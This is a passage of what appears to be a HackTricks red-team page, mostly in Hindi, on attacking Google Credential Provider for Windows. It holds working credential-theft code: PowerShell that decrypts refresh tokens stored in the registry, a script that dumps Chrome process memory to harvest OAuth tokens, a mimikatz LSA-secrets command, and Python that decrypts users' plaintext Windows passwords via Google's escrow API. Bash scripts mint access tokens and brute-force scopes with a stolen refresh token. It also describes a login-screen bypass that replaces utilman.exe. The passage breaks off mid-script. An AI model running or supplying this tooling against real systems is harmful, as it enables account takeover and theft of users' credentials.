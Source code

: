 # GWS - Workspace Sync Attacks (GCPW, GCDS, Directory Sync with AD & EntraID)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## GCPW - Google Credential Provider for Windows

यह एकल साइन-ऑन है जो Google Workspaces प्रदान करता है ताकि उपयोगकर्ता अपने Windows PCs में **अपने Workspace क्रेडेंशियल्स** का उपयोग करके लॉगिन कर सकें। इसके अलावा, यह कुछ स्थानों पर Google Workspace तक पहुँचने के लिए टोकन संग्रहीत करेगा।

{% hint style="success" %}
ध्यान दें कि [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GCPW** का पता लगाने, कॉन्फ़िगरेशन के बारे में जानकारी प्राप्त करने और **यहाँ तक कि टोकन** प्राप्त करने में सक्षम है।
{% endhint %}

### GCPW - MitM

जब एक उपयोगकर्ता GCPW के माध्यम से Google Workspace के साथ समन्वयित Windows PC तक पहुँचता है, तो उसे एक सामान्य लॉगिन फ़ॉर्म पूरा करना होगा। यह लॉगिन फ़ॉर्म एक OAuth कोड लौटाएगा जिसे PC एक अनुरोध में रिफ्रेश टोकन के लिए विनिमय करेगा जैसे: 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

नई पंक्तियाँ इसे अधिक पठनीय बनाने के लिए जोड़ी गई हैं।

{% hint style="info" %}
यह एक MitM करने के लिए संभव था `Proxifier` को PC में स्थापित करके, `utilman.exe` बाइनरी को `cmd.exe` के साथ ओवरराइट करके और Windows लॉगिन पृष्ठ में **एक्सेसिबिलिटी फीचर्स** को निष्पादित करके, जो एक **CMD** को निष्पादित करेगा जिससे आप **Proxifier को लॉन्च और कॉन्फ़िगर** कर सकते हैं।\
**QUICK UDP** ट्रैफ़िक को `Proxifier` में ब्लॉक करना न भूलें ताकि यह TCP संचार में डाउनग्रेड हो जाए और आप इसे देख सकें।

"Serviced and other users" में दोनों विकल्पों को भी कॉन्फ़िगर करें और Windows में Burp CA प्रमाणपत्र स्थापित करें।
{% endhint %}

इसके अलावा **`HKLM:\SOFTWARE\Google\GCPW`** में `enable_verbose_logging = 1` और `log_file_path = C:\Public\gcpw.log` कुंजियों को जोड़कर कुछ लॉग्स को स्टोर करना संभव है।

### GCPW - फिंगरप्रिंट

यह जांचना संभव है कि क्या GCPW किसी डिवाइस में स्थापित है यह जांचकर कि क्या निम्नलिखित प्रक्रिया मौजूद है या यदि निम्नलिखित रजिस्ट्री कुंजियाँ मौजूद हैं:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
In **`HKCU:\SOFTWARE\Google\Accounts`** यह संभव है कि उपयोगकर्ता का ईमेल और एन्क्रिप्टेड **refresh token** तक पहुंचा जा सके यदि उपयोगकर्ता हाल ही में लॉग इन हुआ हो।

In **`HKLM:\SOFTWARE\Google\GCPW\Users`** यह संभव है कि **domains** को खोजा जा सके जो `domains_allowed` कुंजी में लॉगिन करने की अनुमति है और उपकुंजियों में उपयोगकर्ता के बारे में जानकारी जैसे ईमेल, चित्र, उपयोगकर्ता नाम, टोकन जीवनकाल, टोकन हैंडल आदि मिल सकती है...

{% hint style="info" %}
टोकन हैंडल एक टोकन है जो `eth.` से शुरू होता है और जिससे कुछ जानकारी निकाली जा सकती है जैसे:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

यह भी संभव है कि एक अनुरोध के साथ एक एक्सेस टोकन के टोकन हैंडल को खोजा जाए:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

मेरे अनुसार, टोकन हैंडल से रिफ्रेश टोकन या एक्सेस टोकन प्राप्त करना संभव नहीं है।
{% endhint %}

इसके अलावा, फ़ाइल **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** एक json है जिसमें विभिन्न **सेटिंग्स** की जानकारी होती है जैसे `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (यदि Workspace के कई उपयोगकर्ता कंप्यूटर में लॉगिन कर सकते हैं) और `validityPeriodDays` (दिनों की संख्या जब एक उपयोगकर्ता को सीधे Google के साथ फिर से प्रमाणित होने की आवश्यकता नहीं होती)।

### GCPW - रजिस्ट्री रिफ्रेश टोकन

रजिस्ट्री **`HKCU:\SOFTWARE\Google\Accounts`** के अंदर कुछ खातों को **`refresh_token`** के साथ एन्क्रिप्टेड पाया जा सकता है। विधि **`ProtectedData.Unprotect`** इसे आसानी से डिक्रिप्ट कर सकती है।

<details>

<summary>डेटा प्राप्त करें <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> और रिफ्रेश_टोकन को डिक्रिप्ट करें</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

उदाहरण आउट:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) में समझाया गया है, यदि आप रजिस्ट्री में टोकन नहीं पाते हैं, तो **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** से मान को संशोधित (या हटाना) संभव है और अगली बार जब उपयोगकर्ता कंप्यूटर तक पहुंचता है, तो उसे फिर से लॉगिन करने की आवश्यकता होगी और **टोकन पिछले रजिस्ट्री में संग्रहीत होगा**।

### GCPW - डिस्क रिफ्रेश टोकन

फाइल **`%LocalAppData%\Google\Chrome\User Data\Local State`** में **`refresh_tokens`** को डिक्रिप्ट करने के लिए कुंजी संग्रहीत होती है जो उपयोगकर्ता के **Google Chrome प्रोफाइल** के अंदर स्थित होती है जैसे:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

इन टोकनों को उनके डिक्रिप्टेड रूप में एक्सेस करने वाले कुछ **C# कोड** को [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) में पाया जा सकता है।

इसके अलावा, एन्क्रिप्टिंग इस कोड में पाई जा सकती है: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

यह देखा जा सकता है कि AESGCM का उपयोग किया गया है, एन्क्रिप्टेड टोकन एक **संस्करण** (**`v10`** इस समय) से शुरू होता है, फिर इसमें [**12B का नॉनस**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) होता है, और फिर इसमें **साइफर-टेक्स्ट** होता है जिसमें अंतिम **mac 16B** होता है।

### GCPW - प्रक्रियाओं की मेमोरी से टोकन डंप करना

निम्नलिखित स्क्रिप्ट का उपयोग **Chrome** प्रक्रिया को **dump** करने के लिए किया जा सकता है, `procdump` का उपयोग करके, **स्ट्रिंग्स** को निकालें और फिर **access और refresh tokens** से संबंधित स्ट्रिंग्स के लिए **खोजें**। यदि Chrome किसी Google साइट से जुड़ा है, तो कुछ **प्रक्रिया मेमोरी में रिफ्रेश और/या एक्सेस टोकन संग्रहीत कर रही होगी!**

<details>

<summary>Chrome प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

मैंने `gcpw_extension.exe` के साथ वही कोशिश की लेकिन यह कोई टोकन नहीं मिला।

किसी कारण से, **कुछ निकाले गए एक्सेस टोकन मान्य नहीं होंगे (हालांकि कुछ होंगे)**। मैंने डंप से मान्य टोकन प्राप्त करने के लिए एक-एक करके अक्षर हटाने के लिए निम्नलिखित स्क्रिप्ट का प्रयास किया। यह मुझे कभी भी मान्य टोकन खोजने में मदद नहीं कर सका, लेकिन मुझे लगता है कि यह मदद कर सकता है:

<details>

<summary>एक्सेस टोकन की जांच करें अक्षरों को एक-एक करके हटाकर</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - स्पष्ट पाठ पासवर्ड पुनर्प्राप्त करना

GCPW का दुरुपयोग करके स्पष्ट पाठ पासवर्ड को पुनर्प्राप्त करने के लिए, **mimikatz** का उपयोग करके **LSASS** से एन्क्रिप्टेड पासवर्ड को डंप करना संभव है:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
फिर छिपे हुए को `Chrome-GCPW-<sid>` की तरह खोजें जैसे कि चित्र में:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

फिर, एक **एक्सेस टोकन** के साथ जिसका दायरा `https://www.google.com/accounts/OAuthLogin` है, पासवर्ड को डिक्रिप्ट करने के लिए निजी कुंजी का अनुरोध करना संभव है:

<details>

<summary>एक्सेस टोकन, एन्क्रिप्टेड पासवर्ड और संसाधन आईडी दिए जाने पर स्पष्ट पाठ में पासवर्ड प्राप्त करने के लिए स्क्रिप्ट</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

इसमें मुख्य घटकों को Chromium स्रोत कोड में पाया जा सकता है:

* API डोमेन: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API एंडपॉइंट: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध करना संभव नहीं है क्योंकि आप केवल **उन स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GCPW उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
इसके अलावा, Chromium स्रोत कोड की जांच करने पर [**इस फ़ाइल को ढूंढना संभव है**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), जिसमें **अन्य स्कोप** शामिल हैं जो **पहले से ब्रूट-फोर्स की गई सूची में नहीं दिखाई देते**। इसलिए, इन अतिरिक्त स्कोप को माना जा सकता है:

<details>

<summary>अतिरिक्त स्कोप</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

ध्यान दें कि सबसे दिलचस्प संभवतः है:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
हालांकि, मैंने इस दायरे का उपयोग gmail तक पहुँचने या समूहों की सूची बनाने के लिए करने की कोशिश की और यह काम नहीं किया, इसलिए मुझे नहीं पता कि यह अभी कितना उपयोगी है।

**सभी उन दायरों के साथ एक एक्सेस टोकन प्राप्त करें**:

<details>

<summary>सभी दायरों के साथ refresh_token से एक्सेस टोकन उत्पन्न करने के लिए Bash स्क्रिप्ट</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
